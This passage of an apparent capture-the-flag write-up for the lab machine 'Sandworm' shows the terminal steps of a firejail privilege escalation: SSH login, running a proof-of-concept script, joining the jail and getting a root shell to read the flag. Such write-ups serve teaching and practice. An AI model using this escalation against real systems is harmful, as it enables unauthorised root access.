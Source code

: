 Now I can connect:

```

oxdf@hacky$ ssh -i ~/keys/ed25519_gen atlas@ssa.htb
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-73-generic x86_64)
...[snip]...
atlas@sandworm:~$ 

```

I’ll get two sessions up.

#### Exploit

I’ll download the Python POC script and upload it to Sandworm. If I try to run it without making it executable, it complains:

```

atlas@sandworm:/dev/shm$ python3 firejoin.py 
/dev/shm/firejoin.py needs to have the execute bit set for the exploit to work. Run `chmod +x /dev/shm/firejoin.py` and try again.

```

On fixing that, it works, starting the fake environment where the user can `su -` without a password:

```

atlas@sandworm:/dev/shm$ python3 firejoin.py 
You can now run 'firejail --join=213646' in another terminal to obtain a shell where 'sudo su -' should grant you a root shell.

```

In the other shell, I’ll join the jail, and then run `su -`:

```

atlas@sandworm:~$ firejail --join=213646
changing root to /proc/213646/root
Warning: cleaning all supplementary groups
Child process initialized in 9.01 ms
atlas@sandworm:~$ su -
root@sandworm:~#

```

I can read `root.txt`:

```

root@sandworm:~# cat root.txt
fd2706d1************************

```
